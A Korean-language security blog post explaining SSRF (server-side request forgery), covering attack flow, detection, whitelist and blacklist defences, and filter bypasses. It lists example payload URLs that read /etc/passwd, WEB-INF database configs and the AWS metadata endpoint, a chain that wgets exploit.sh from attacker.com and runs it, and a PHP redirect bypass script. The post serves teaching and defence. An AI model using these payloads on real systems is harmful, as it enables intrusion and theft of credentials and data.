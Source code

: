 ```yaml
---
title: SSRF(Server Side Request Forgery) Vulnerability
categories: [System Security Vulnerability, Web Application]
tags: [Web Hacking, SSRF, Server Side Request Forgery]
image:
  path: /assets/post/2025/SSV/Web/SSRF.jpg
  alt: SSRF (Server Side Request Forgery) Vulnerability
published: true
---
```


## **1. SSRF(Server Side Request Forgery) Vulnerability**

**SSRF(Server Side Request Forgery, 서버 사이드 요청 위조) 취약점**은 **공격자가 직접 액세스할 수 없는 내부 서버 자원을 획득**하기 위해서 내부 서버와 연결된 취약한 서버에 변조된 요청을 전송하고 내부 서버 자원을 탈취할 수 있는 웹 취약점입니다.

클라이언트 측의 권한을 이용하였던 CSRF(Client Side Reuqest Forgery)와는 달리 SSRF는 **서버의 권한을 사용하여 악의적인 요청을 전송**하기 때문에 **외부에서 직접 접근이 불가능한 내부 서버의 자원을 탈취**하거나 내부 네트워크 내에서 악의적인 행위 수행이 가능합니다.

**(예상 피해)**
> 1. 취약한 서버의 로컬 자원 탈취
> 2. 취약한 서버와 연결된 내부 서버의 중요 자원에 접근하여 조건에 따라 추가 Exploit 가능
> 3. 내부와 연결된 취약한 서버에서 개방된 포트 및 IP 정보 수집하여 2차 공격

---

**(공격 흐름)**

```
[공격자] - - - - > [내부 서버]  
  ㄴ Firewall, NAC 등의 보안장비가 외부로부터 내부 서버로 접근하려는 악의적인 시도를 차단  

[공격자] - - - - > [취약 서버] - - - - > [내부 서버]
[공격자] < - - - - [취약 서버] < - - - - [내부 서버]
  ㄴ 1. 공격자는 내부 서버와 연결된 취약한 서버에게 내부 서버의 자원 요청 메시지를 요청  
  ㄴ 2. 내부 서버는 취약 서버가 요청한 자원을 취약 서버에게 반환  
  ㄴ 3. 취약 서버는 내부 서버로부터 획득한 정보를 공격자(Attacker)에게 반환
```

SSRF 취약점은 취약한 서버에 조작된 HTTP 요청을 보냈을 때, 서버 자원을 처리하는 서비스에서 **URL 파라미터에 대한 검증이 없거나 미흡**하여 발생합니다.

---

**(진단방법)**
> 1. SSRF 공격은 특정 웹 페이지에서 신뢰 관계에 있는 내부 서버로 요청을 전송하거나 외부 IP 및 도메인으로 요청을 전송하는 구간에서 발생하므로, 웹 페이지의 모든 URL과 파라미터 값을 확인하여 자원을 요청하는 구간을 확인하고 점검(입력 값 검증)해 보아야 합니다.

---

## **2. SSRF Vulnerability Type**

### **2-1. 로컬 서버(취약 서버) 자원 접근**

공격자는 URL Schema, 상대·절대경로를 이용하여 외부에서 접근할 수 없는 "/etc/passwd", "{dbinfo}.properties" 과 같이 로컬 서버 시스템 파일 및 데이터베이스 설정 파일 정보 등을 탈취할 수 있습니다.  
  
```
https://www.vulnerable.com?url=file:///etc/passwd  
https://www.vulnerable.com?url=../../../../WEB-INF/spring/root-context.xml  
https://www.vulnerable.com?url=../../../../WEB-INF/classes/property/dbinfo.properties  
https://www.vulnerable.com?url=http://localhost/admin.jsp
```

---

### **2-2. 내부 서버 자원 접근**

외부에서 접근이 제한된 내부 서버 자원에 접근하여 내부 정보를 획득할 수 있습니다. SSRF 공격을 통해 AWS 메타데이터 정보를 획득하고 AWS S3 버킷에 저장된 데이터를 탈취했던 캐피탈원 사례와 같이 SSRF 취약점을 통해 내부 서버 자원을 취득하고 이를 통한 추가적인 공격 수행이 가능합니다.

```
https://www.vulnerable.com?url=http://169.254.169.254/latest/meta-data  
  ㄴ 내부 서버와 연결된 취약 서버를 활용하여 내부 서버에 저장된 데이터(자원)를 요청
```

---

#### **2-2-1. 내부 서버 정보 수집 · Exploit**

내부 서버에서 시스템 구조 설계 상 운영체제 명령어 실행이 가능한 구간이 존재한다면, 공격자는 해당 구간에 악성 페이로드를 전달하여 2차 공격을 진행할 수 있습니다. 만약 ROOT 권한이 부여된 계정이라면 끝났다고 볼 수 있겠죠!

```
https://www.vulnerable.com?url=http://100.X.Y.Z/scheduler/command.jsp?payload={ATTACKER_INPUT}  
  ㄴ {ATTACKER_INPUT} 입력 값에 악성 페이로드를 삽입하여 OSC Injection 수행 가능

https://www.vulnerable.com?url=http://100.X.Y.Z/scheduler/command.jsp?payload={hostname%20-i;}  
https://www.vulnerable.com?url=http://100.X.Y.Z/scheduler/command.jsp?payload={wget%20https://www.attacker.com/exploit.sh}  
https://www.vulnerable.com?url=http://100.X.Y.Z/scheduler/command.jsp?payload={chmod%20+x%20exploit.sh}  
https://www.vulnerable.com?url=http://100.X.Y.Z/scheduler/command.jsp?payload={./exploit.sh}
```

---

## **3. SSRF Vulnerability Defensive Techniques**

**(최선) 화이트 리스트 방식의 검증**을 통해 서버 측 요청에 사용되는 입력 파라미터 중 허용할 URL 들을 정의하여 입력 받은 URI 가 허용된 URI 인지 검증하는 것이 바람직합니다.

**(차선)** 서비스 구조에 따라서 화이트 리스트 방식의 검증을 사용하는 것이 불가하다면, 블랙 리스트 필터링을 통해 금지할 URI, Schema, e.g. 정의하여 필터링 해야 합니다. 

 > 블랙리스트 필터링 예시; Private IP Address, localhost, sftp://, file://, ftp://, etc.

---

## **4. Bypass WAF, etc.**

**- 블랙리스트 방식 필터링을 사용하는 경우 특정 상황에 따라 우회 공격이 가능합니다.**

```
1. Short URL 을 이용한 우회  
  ㄴ Short URL을 통해 문자열 검증을 우회하여 SSRF 공격 가능  
    ㄴ (원본) https://www.soneg.com?path=http://127.0.0.1/db.conf  
    ㄴ (변조) https://www.soneg.com?path=http://{shortURL}  
  
2. Redirect 기능을 이용한 우회  
  ㄴ 공격자의 웹 서버에서 Redirect 시키는 페이지에 접근하도록 하여 문자열 필터링 우회 가능  
    ㄴ (filtered)  https://www.soneg.com?path=http://127.0.0.1/db.conf  
    ㄴ (Bypass) https://www.soneg.com?path=http://www.attacker.com/bypass_ssrf.php  
      ㄴ [bypass.ssrf.php] <?php header('Location: http://127.0.0.1/db.conf');?>  
        1. 공격자는 취약 서버에 "http://www.attacker.com/bypass_ssrf.php" 자원 요청  
        2. 취약 서버는 공격자의 서버(www.hacker.com)에 "bypass_ssrf.php" 자원 요청  
        3. "bypass_ssrf.php" 파일에 정의된 코드에 의해 필터링 우회되어 내부 서버에 자원 요청 성공
```

- 블랙리스트 방식은 Short URL, Redirect 등의 여러 우회 기법이 존재하므로 **화이트 리스트 필터링 방식을 사용하는 것이 가장 안전**하며, 사용자 입력 값 검증 외의 대응 방안으로는 사용자 측의 요청을 처리하는 서버와 중요 정보를 저장하는 내부 서버를 분리하여 운영하는 방안이 존재합니다.

---

<h2 style="text-align: center;" data-ke-size="size26"><b>END</b></h2>
